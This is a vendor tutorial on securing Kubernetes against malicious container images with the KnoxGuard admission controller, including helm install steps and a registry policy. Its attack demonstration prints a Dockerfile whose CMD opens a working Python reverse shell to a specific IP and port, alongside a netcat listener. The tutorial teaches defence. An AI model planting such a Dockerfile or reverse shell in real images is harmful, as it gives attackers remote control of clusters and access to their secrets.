





# Mitigate Supply Chain Attacks with KnoxGuard

As Kubernetes adoption continues to surge, securing your Kubernetes clusters becomes critical. And the Kubernetes security is incomplete without the admission controllers. An admission controller in Kubernetes is a component that intercepts the Kubernetes API requests to validate, modify, or reject them based on defined policies before they are applied to the cluster.

This document showcases the impact of using container images from unknown container registries. The scenario involves a container registry controlled by an attacker, leading to a remote code execution via a supply chain attack. It also outlines how you can secure your Kubernetes cluster from such supply chain attacks.

## Scenario before using the KnoxGuard

A developer deploys an nginx container using this Kuberentes manifest:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  labels:
    app: nginx
  name: nginx
spec:
  replicas: 1
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      containers:
      - image: ttl.sh/nginx:24h
        name: nginx
```

At first glance, this Kubernetes manifest doesn't look malicious at all. But if you look closely, its using `ttl.sh/nginx:24h` image to create the container. It's not a standard nginx image from the Docker Hub. In fact this image is controlled by an attacker and it contains the code to get a reverse shell. The developer had made a mistake here and deployed the nginx container using a malicious image from an untrusted registry.

Here is the Dockerfile of that malicious image:

```Dockerfile
# Use the official NGINX image as a base
FROM nginx:latest

# Install Python3 (required for the reverse shell)
RUN apt-get update && apt-get install -y python3 && apt-get clean

# Command to run both the NGINX server and the reverse shell
CMD bash -c "python3 -c 'import socket,os,pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"3.110.37.227\",1337)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn(\"/bin/bash\")' & nginx -g 'daemon off;'"
```

You can see that it have a python command that spawns up the reverse shell on the attacker's machine.

The attacker uses the netcat to listen for this reverse shell connection.

```sh
ubuntu@ip-172-31-11-62:~$ nc -lvnp 1337
Listening on 0.0.0.0 1337
```

The attacker immediately gets the reverse shell once the container is deployed.

```sh
> kubectl apply -f deployment.yaml -n demo
deployment.apps/nginx created
```



Now the attacker have full access to the container! Attacker can perform network requests from the container, leak your source code, mine cryptocurrencies, or even get access to database credentials from the environment variables!

## Scenario after using KnoxGuard

You can use KnoxGuard to defend against such supply chain attacks. Before installing the KnoxGuard make sure that the Kubernetes cluster is onboarded to the AccuKnox control plane, and all AccuKnox agents are in the running state:

```sh
userx@fedora:~$ kubectl get pods -n accuknox-agents
NAME                                      READY   STATUS    RESTARTS           AGE
agents-operator-d8585d594-55s29           1/1     Running   0                  72d
discovery-engine-59c69ff787-scrrj         4/4     Running   0                  72d
feeder-service-765d8f7d65-d4vq2           1/1     Running   13 (2d21h ago)     4d
policy-enforcement-agent-f5c5f87b-9fw79   1/1     Running   84 (2d21h ago)     40d
shared-informer-agent-77569db588-c944p    1/1     Running   1090 (2m36s ago)   40d
```

After ensuring that agents are in the running state you can install KnoxGuard by the following commands:

```sh
helm repo add kyverno https://kyverno.github.io/kyverno/
helm repo update
helm install kyverno kyverno/kyverno -n kyverno --create-namespace
helm upgrade --install knoxguard oci://public.ecr.aws/k9v9d5v2/knoxguard-chart --version=v0.2.0 -n knoxguard --create-namespace
```

Once the KnoxGuard is installed create a file `policy.yaml` and paste the following content into the file.

```yaml
apiVersion: admission.accuknox.com/v1
kind: AdmissionPolicy
metadata:
  labels:
    app.kubernetes.io/name: admission-controller
  name: use-trusted-regestries
spec:
  registries:
    action: Block
    include:
    - pattern: docker.io/*
      namespace: demo
```

For applying the policy, open up the AccuKnox control plane. Navigate to the runtime protection > policies and click on the create policy button.



Select your cluster, upload the policy and click on the save button.



It will ask you for a confirmation, click on the active policies checkbox and click on the confirm button.



After applying the policy, KnoxGuard will block the deployments that use images from untrusted registries.



## Summary

Using untrusted container registries can lead to significant security risks, including remote code execution and unauthorized access. KnoxGuard provides an effective solution by enforcing security policies that block malicious deployments, helping to secure the cluster and prevent supply chain attacks. Implementing KnoxGuard admission controller ensures a more robust and safer Kubernetes environment.
